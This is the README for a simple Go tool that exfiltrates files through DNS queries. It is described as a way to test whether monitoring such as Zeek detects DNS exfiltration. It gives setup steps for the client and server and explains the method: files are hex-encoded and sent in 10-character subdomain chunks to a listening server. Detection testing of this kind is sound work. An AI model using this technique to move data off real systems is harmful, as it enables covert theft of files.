 This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

To Use: **Server Side**
1. On your intended server, copy the go-dnsserver.go file and build on the server (**go build**)
2. Start it: **sudo ./server**
3. The server will then listen for incoming DNS connections
4. The server will resolve any request it receives to 10.10.10.10

To Use: **Client Side**
1. Copy the go-dnsclient.go file over to the client you plan to test it on
2. Change the dns server IP in the client code from 127.0.0.1 to whatever IP you are using for the server 
3. Build (**go build**) 
4. Run the client and feed it a single parameter which is the path to the file you want to exfil. Example:

**./client ~/Desktop/testfile.txt**

5. the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com
6. Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.
7. The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.
8. You will need to rename the outfile if you want to send multiple files.

----------------------

Example Execution:

**Client**

![Image](client.png)

**Server**

![Image](server.png)


